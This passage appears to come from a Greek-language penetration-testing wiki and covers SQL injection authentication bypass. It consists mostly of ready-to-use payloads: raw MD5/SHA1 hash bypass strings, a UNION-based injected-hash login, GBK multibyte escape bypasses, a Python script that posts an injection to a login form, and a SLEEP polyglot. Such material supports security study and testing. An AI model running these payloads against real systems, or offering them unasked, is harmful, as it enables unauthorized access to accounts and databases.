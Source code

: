 Λίστα για να προσπαθήσετε να παρακάμψετε τη λειτουργία σύνδεσης:

{% content-ref url="../login-bypass/sql-login-bypass.md" %}
[sql-login-bypass.md](../login-bypass/sql-login-bypass.md)
{% endcontent-ref %}

### Παράκαμψη αυθεντικοποίησης με ακατέργαστο hash
```sql
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```
Αυτή η ερώτηση επιδεικνύει μια ευπάθεια όταν το MD5 χρησιμοποιείται με true για ακατέργαστη έξοδο σε ελέγχους ταυτοποίησης, καθιστώντας το σύστημα ευάλωτο σε SQL injection. Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό δημιουργώντας εισόδους που, όταν κατακερματίζονται, παράγουν απροσδόκητα μέρη SQL εντολών, οδηγώντας σε μη εξουσιοδοτημένη πρόσβαση.
```sql
md5("ffifdyop", true) = 'or'6�]��!r,��b�
sha1("3fDf ", true) = Q�u'='�@�[�t�- o��_-!
```
### Παράκαμψη αυθεντικοποίησης με εισαγόμενο hash
```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```
**Συνιστώμενη λίστα**:

Πρέπει να χρησιμοποιήσετε ως όνομα χρήστη κάθε γραμμή της λίστας και ως κωδικό πρόσβασης πάντα: _**Pass1234.**_\
&#xNAN;_(Αυτά τα payloads περιλαμβάνονται επίσης στη μεγάλη λίστα που αναφέρθηκε στην αρχή αυτής της ενότητας)_

{% file src="../../.gitbook/assets/sqli-hashbypass.txt" %}

### GBK Authentication Bypass

ΕΑΝ το ' είναι διαφευγμένο μπορείτε να χρησιμοποιήσετε %A8%27, και όταν το ' διαφευγεί θα δημιουργηθεί: 0xA80x5c0x27 (_╘'_)
```sql
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```
Python script:
```python
import requests
url = "http://example.com/index.php"
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3')
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"}
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url})
print r.text
```
### Πολυγλωσσική ένεση (πολυδιάστατη)
```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
## Insert Statement
